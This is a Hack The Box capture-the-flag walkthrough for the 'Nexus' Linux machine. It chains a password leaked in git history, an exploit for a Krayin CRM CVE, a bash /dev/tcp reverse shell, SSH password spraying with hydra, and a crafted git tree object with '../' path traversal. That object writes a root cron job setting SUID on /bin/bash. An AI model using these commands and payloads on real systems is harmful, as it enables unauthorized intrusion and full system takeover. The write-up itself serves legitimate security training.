



# Target
| Category          | Details                                                                                               |
|-------------------|-------------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Nexus](https://app.hackthebox.com/machines/Nexus)                                                    |  
| 🏷 **Type**       | HTB Machine                                                                                           |
| 🖥 **OS**         | Linux                                                                                                 |
| 🎯 **Difficulty** | Easy                                                                                                  |
| 📁 **Tags**       | Krayin 2.2.0, [CVE-2026-38526](https://nvd.nist.gov/vuln/detail/CVE-2026-38526), git object injection |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-24 15:39 +0200
Nmap scan report for 10.129.234.54
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.96 seconds
```

#### Add `nexus.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ echo "$TARGET nexus.htb" | sudo tee -a /etc/hosts     
10.129.234.54 nexus.htb
```

#### Enumerate virtual hosts
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ gobuster vhost --url http://$TARGET --wordlist /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -ad --domain nexus.htb 
<SNIP>
git.nexus.htb Status: 200 [Size: 14472]
billing.nexus.htb Status: 302 [Size: 390] [--> http://billing.nexus.htb/admin/login]
<SNIP>
```

#### Add `git.nexus.htb` and `billing.nexus.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ echo "$TARGET git.nexus.htb billing.nexus.htb" | sudo tee -a /etc/hosts
10.129.234.54 git.nexus.htb billing.nexus.htb
```

#### Discover publicly available `krayin-docker-setup` git repository


#### Check diff of last commit
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ git clone -q http://git.nexus.htb/admin/krayin-docker-setup.git && cd krayin-docker-setup && git show
commit 9b817fa4e073d12fc43952acb09f3067b2f17adf (HEAD -> main, origin/main, origin/HEAD)
Author: admin <admin@nexus.htb>
Date:   Thu Apr 23 18:05:22 2026 +0000

    Upload files to "/"

diff --git a/.env b/.env
index cb7ccc3..5ae1bb2 100644
--- a/.env
+++ b/.env
@@ -2,7 +2,7 @@ APP_NAME='Krayin CRM'
 APP_ENV=local
 APP_KEY=
 APP_DEBUG=true
-APP_URL=http://nexus.htb
+APP_URL=http://billing.nexus.htb
 APP_TIMEZONE=Asia/Kolkata
 APP_LOCALE=en
 APP_CURRENCY=USD
@@ -15,7 +15,7 @@ DB_HOST=krayin-mysql
 DB_PORT=3306
 DB_DATABASE=krayin
 DB_USERNAME=krayin
-DB_PASSWORD=N27xh!!2ucY04
+DB_PASSWORD=
 DB_PREFIX=
 BROADCAST_DRIVER=log
 CACHE_DRIVER=file
```
We have discovered `N27xh!!2ucY04` password.

#### Look for email addresses in `nexus.htb` domain on main website
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ curl -s http://nexus.htb | grep nexus.htb
                <a href="mailto:careers@nexus.htb" class="apply-email">Apply at careers@nexus.htb</a>
                <p class="hiring-manager">Questions? Reach out to our hiring manager: <a href="mailto:j.matthew@nexus.htb">j.matthew@nexus.htb</a></p>
```
`j.matthew@nexus.htb` email address has been discovered

#### Use `j.matthew@nexus.htb:N27xh!!2ucY04` credentials to access Krayin CRM at `http://billing.nexus.htb/`


#### Identify Krayin 2.2.0 running on target


This version is vulnerable to [CVE-2026-38526](https://nvd.nist.gov/vuln/detail/CVE-2026-38526)

#### Confirm target is vulnerable to [CVE-2026-38526](https://nvd.nist.gov/vuln/detail/CVE-2026-38526)
[NathanHimself/CVE-2026-38526-PoC](https://github.com/NathanHimself/CVE-2026-38526-PoC.git) has been used.
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ git clone -q https://github.com/NathanHimself/CVE-2026-38526-PoC.git CVE-2026-38526 && \
python3 ./CVE-2026-38526/exploit.py -t http://billing.nexus.htb/ -u 'j.matthew@nexus.htb' -p 'N27xh!!2ucY04' -c id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ nc -lvnp $LPORT
listening on [any] 4444 ...
```

#### Exploit [CVE-2026-38526](https://nvd.nist.gov/vuln/detail/CVE-2026-38526) to spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ python3 ./CVE-2026-38526/exploit.py -t http://billing.nexus.htb/ -u 'j.matthew@nexus.htb' -p 'N27xh!!2ucY04' -c "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'"
```

#### Confirm foothold gained
```
connect to [10.10.16.198] from (UNKNOWN) [10.129.234.54] 52898
bash: cannot set terminal process group (1449): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nexus:~/krayin/storage/app/public/tinymce$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Discover DB password in `/var/www/krayin/.env`
```
www-data@nexus:~$ grep -i pass /var/www/krayin/.env
DB_PASSWORD=y27xb3ha!!74GbR
REDIS_PASSWORD=null
MAIL_PASSWORD=null
IMAP_PASSWORD=your_password
```

#### List users with shell access
```
www-data@nexus:~$ grep bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
jones:x:1000:1000:,,,:/home/jones:/bin/bash
git:x:111:112:Git Version Control,,,:/home/git:/bin/bash
```

#### Spray `y27xb3ha!!74GbR` on users over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ { cat <<'EOF'> users.txt
root
jones
git
EOF
} && hydra -L users.txt -p 'y27xb3ha!!74GbR' ssh://nexus.htb
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-26 14:28:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://nexus.htb:22/
[22][ssh] host: nexus.htb   login: jones   password: y27xb3ha!!74GbR
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-26 14:28:19
```

#### Access target over SSH using `jones:y27xb3ha!!74GbR` credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ ssh jones@nexus.htb
jones@nexus.htb's password: 
<SNIP>
jones@nexus:~$ id
uid=1000(jones) gid=1000(jones) groups=1000(jones),100(users)
```

#### Capture user flag
```
jones@nexus:~$ cat /home/jones/user.txt 
0f7b8a7f876717fc71bd63dc602d05be
```

### Root flag

#### Discover custom `gitea-template-sync.service` running every minute
```
jones@nexus:~$ cat /etc/systemd/system/gitea-template-sync.service 
[Unit]
Description=Sync Gitea templates
After=network-online.target

[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
TimeoutStartSec=50s
jones@nexus:~$ cat /etc/systemd/system/gitea-template-sync.timer 
[Unit]
Description=Run Gitea template sync every minute

[Timer]
OnBootSec=1min
OnUnitActiveSec=1min
Unit=gitea-template-sync.service

[Install]
WantedBy=timers.target
```

#### Analyze `/etc/gitea/template-sync.py`
```
jones@nexus:~$ cat -n /etc/gitea/template-sync.py
<SNIP>
     8  GITEA_URL = "http://localhost:3000"
     9  REPO_ROOT = "/var/lib/gitea/data/gitea-repositories"
    10  STAGING_DIR = "/home/git/template-staging"
    11  LOG_FILE = "/var/log/template-sync.log"
<SNIP>
    42  def get_template_repos(token):
    43      url = "%s/api/v1/repos/search?limit=50" % GITEA_URL
    44      req = urllib.request.Request(url, headers={
    45          'Authorization': 'token %s' % token
    46      })
    47      try:
    48          with urllib.request.urlopen(req) as resp:
    49              data = json.loads(resp.read())
    50              repos = data.get('data', data) if isinstance(data, dict) else data
    51              return [r for r in repos if r.get('template', False)]
    52      except Exception as e:
    53          log("API error: %s" % e)
    54          return []
    55
    56  def sync_template(repo_info):
    57      owner = repo_info['owner']['login']
    58      name = repo_info['name'].lower()
    59      bare_path = os.path.join(REPO_ROOT, owner, "%s.git" % name)
    60      stage_path = os.path.join(STAGING_DIR, owner, name)
    61
    62      if not os.path.isdir(bare_path):
    63          log("  repo not found: %s" % bare_path)
    64          return
    65
    66      # Read tree entries from the bare repository
    67      try:
    68          GIT = ['git', '-c', 'safe.directory=*']
    69          result = subprocess.run(
    70              GIT + ['ls-tree', '-r', 'HEAD'],
    71              cwd=bare_path,
    72              capture_output=True, text=True, timeout=10
    73          )
    74          if result.returncode != 0:
    75              log("  ls-tree failed: %s" % result.stderr.strip())
    76              return
    77      except Exception as e:
    78          log("  ls-tree error: %s" % e)
    79          return
    80
    81      entries = []
    82      for line in result.stdout.strip().split('\n'):
    83          if not line:
    84              continue
    85          parts = line.split('\t', 1)
    86          if len(parts) != 2:
    87              continue
    88          meta, filepath = parts
    89          mode, objtype, objhash = meta.split()
    90          if objtype == 'blob':
    91              entries.append((mode, objhash, filepath))
    92
    93      if not entries:
    94          log("  no files in template")
    95          return
    96
    97      # Extract files to staging directory
    98      for mode, objhash, filepath in entries:
    99          target = os.path.join(stage_path, filepath)
   100          target_dir = os.path.dirname(target)
   101
   102          try:
   103              os.makedirs(target_dir, exist_ok=True)
   104              GIT = ['git', '-c', 'safe.directory=*']
   105              cat_result = subprocess.run(
   106                  GIT + ['cat-file', 'blob', objhash],
   107                  cwd=bare_path,
   108                  capture_output=True, timeout=10
   109              )
   110              if cat_result.returncode != 0:
   111                  continue
   112
   113              with open(target, 'wb') as f:
   114                  f.write(cat_result.stdout)
   115
   116              if mode == '100755':
   117                  os.chmod(target, 0o755)
   118              else:
   119                  os.chmod(target, 0o644)
   120
   121              log("  synced: %s" % filepath)
   122          except Exception as e:
   123              log("  error syncing %s: %s" % (filepath, e))
<SNIP>
```
The script extracts template repository contents to a staging directory by iterating `git ls-tree` output, but passes `filepath` verbatim into `os.path.join(stage_path, filepath)` at line 99 without sanitization - allowing `..` sequences in tree entries to escape the staging directory. Git's porcelain rejects `..` in tracked paths at the CLI layer, but constructing a raw tree object directly in `.git/objects/` bypasses this, producing a valid object Gitea accepts on push and giving a root arbitrary file write primitive that fires every minute.

#### Create template repo `jones/pwn` and push malicious git tree
```
┌──(magicrc㉿perun)-[~/attack/HTB Nexus]
└─$ curl -X POST http://git.nexus.htb/api/v1/user/repos -u jones:'y27xb3ha!!74GbR' -H 'Content-Type: application/json' -d '{"name":"pwn","private":false}' && \
curl -X PATCH http://git.nexus.htb/api/v1/repos/jones/pwn -u jones:'y27xb3ha!!74GbR' -H 'Content-Type: application/json' -d '{"template":true}' && \
cd /tmp/malicious/pwn && \
HASH=$(printf '* * * * * root chmod u+s /bin/bash\n' | git hash-object -w --stdin) && \
TREE_SHA=$(python3 - <<EOF
import os, hashlib, binascii, zlib
path = b'../../../../../../etc/cron.d/pwn'
blob_hash = binascii.unhexlify('$HASH')
entry = b'100644 ' + path + b'\x00' + blob_hash
raw = b'tree ' + str(len(entry)).encode() + b'\x00' + entry
sha1 = hashlib.sha1(raw).hexdigest()
obj_path = f'.git/objects/{sha1[:2]}/{sha1[2:]}'
os.makedirs(os.path.dirname(obj_path), exist_ok=True)
open(obj_path, 'wb').write(zlib.compress(raw))
print(sha1)
EOF
) && \
COMMIT=$(GIT_AUTHOR_NAME=x GIT_AUTHOR_EMAIL=x@x.com GIT_COMMITTER_NAME=x GIT_COMMITTER_EMAIL=x@x.com \
  git commit-tree $TREE_SHA -m "init") && \
git update-ref refs/heads/main $COMMIT && \
git push -f origin main
{"id":2,"owner":{"id":2,"login":"jones","login_name":"","source_id":0,"full_name":"","email":"j.matthew@nexus.htb","avatar_url":"http://git.nexus.htb/avatars/44605a9b14edc9ec7346f4958bf4c383","html_url":"http://git.nexus.htb/jones","language":"","is_admin":false,"last_login":"0001-01-01T00:00:00Z","created":"2026-05-11T16:45:25Z","restricted":false,"active":false,"prohibit_login":false,"location":"","website":"","description":"","visibility":"public","followers_count":0,"following_count":0,"starred_repos_count":0,"username":"jones"},"name":"pwn","full_name":"jones/pwn","description":"","empty":true,"private":false,"fork":false,"template":false,"mirror":false,"size":27,"language":"","languages_url":"http://git.nexus.htb/api/v1/repos/jones/pwn/languages","html_url":"http://git.nexus.htb/jones/pwn","url":"http://git.nexus.htb/api/v1/repos/jones/pwn","link":"","ssh_url":"git@git.nexus.htb:jones/pwn.git","clone_url":"http://git.nexus.htb/jones/pwn.git","original_url":"","website":"","stars_count":0,"forks_count":0,"watchers_count":1,"branch_count":0,"open_issues_count":0,"open_pr_counter":0,"release_counter":0,"default_branch":"main","archived":false,"created_at":"2026-06-26T12:51:47Z","updated_at":"2026-06-26T12:51:47Z","archived_at":"1970-01-01T00:00:00Z","permissions":{"admin":true,"push":true,"pull":true},"has_code":true,"has_issues":true,"internal_tracker":{"enable_time_tracker":true,"allow_only_contributors_to_track_time":true,"enable_issue_dependencies":true},"has_wiki":true,"has_pull_requests":true,"has_projects":true,"projects_mode":"all","has_releases":true,"has_packages":true,"has_actions":true,"ignore_whitespace_conflicts":false,"allow_merge_commits":true,"allow_rebase":true,"allow_rebase_explicit":true,"allow_squash_merge":true,"allow_fast_forward_only_merge":true,"allow_rebase_update":true,"allow_manual_merge":false,"autodetect_manual_merge":false,"default_delete_branch_after_merge":false,"default_merge_style":"merge","default_allow_maintainer_edit":true,"avatar_url":"","internal":false,"mirror_interval":"","object_format_name":"sha1","mirror_updated":"0001-01-01T00:00:00Z","topics":[],"licenses":[]}{"id":2,"owner":{"id":2,"login":"jones","login_name":"","source_id":0,"full_name":"","email":"j.matthew@nexus.htb","avatar_url":"http://git.nexus.htb/avatars/44605a9b14edc9ec7346f4958bf4c383","html_url":"http://git.nexus.htb/jones","language":"","is_admin":false,"last_login":"0001-01-01T00:00:00Z","created":"2026-05-11T16:45:25Z","restricted":false,"active":false,"prohibit_login":false,"location":"","website":"","description":"","visibility":"public","followers_count":0,"following_count":0,"starred_repos_count":0,"username":"jones"},"name":"pwn","full_name":"jones/pwn","description":"","empty":true,"private":false,"fork":false,"template":true,"mirror":false,"size":27,"language":"","languages_url":"http://git.nexus.htb/api/v1/repos/jones/pwn/languages","html_url":"http://git.nexus.htb/jones/pwn","url":"http://git.nexus.htb/api/v1/repos/jones/pwn","link":"","ssh_url":"git@git.nexus.htb:jones/pwn.git","clone_url":"http://git.nexus.htb/jones/pwn.git","original_url":"","website":"","stars_count":0,"forks_count":0,"watchers_count":1,"branch_count":0,"open_issues_count":0,"open_pr_counter":0,"release_counter":0,"default_branch":"main","archived":false,"created_at":"2026-06-26T12:51:47Z","updated_at":"2026-06-26T12:51:47Z","archived_at":"1970-01-01T00:00:00Z","permissions":{"admin":true,"push":true,"pull":true},"has_code":true,"has_issues":true,"internal_tracker":{"enable_time_tracker":true,"allow_only_contributors_to_track_time":true,"enable_issue_dependencies":true},"has_wiki":true,"has_pull_requests":true,"has_projects":true,"projects_mode":"all","has_releases":true,"has_packages":true,"has_actions":true,"ignore_whitespace_conflicts":false,"allow_merge_commits":true,"allow_rebase":true,"allow_rebase_explicit":true,"allow_squash_merge":true,"allow_fast_forward_only_merge":true,"allow_rebase_update":true,"allow_manual_merge":false,"autodetect_manual_merge":false,"default_delete_branch_after_merge":false,"default_merge_style":"merge","default_allow_maintainer_edit":true,"avatar_url":"","internal":false,"mirror_interval":"","object_format_name":"sha1","mirror_updated":"0001-01-01T00:00:00Z","topics":[],"licenses":[]}Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 232 bytes | 232.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://git.nexus.htb/jones/pwn.git
 * [new branch]      main -> main
```

#### Wait and confirm exploit 
```
jones@nexus:~$ cat /etc/cron.d/pwn 
* * * * * root chmod u+s /bin/bash
jones@nexus:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

#### Escalate to root via SUID bash
```
jones@nexus:~$ /bin/bash -p
bash-5.2# id
uid=1000(jones) gid=1000(jones) euid=0(root) groups=1000(jones),100(users)
```

#### Capture root flag
```
bash-5.2# cat /root/root.txt 
8870ff121c8a053d26267acc664c42f1
```
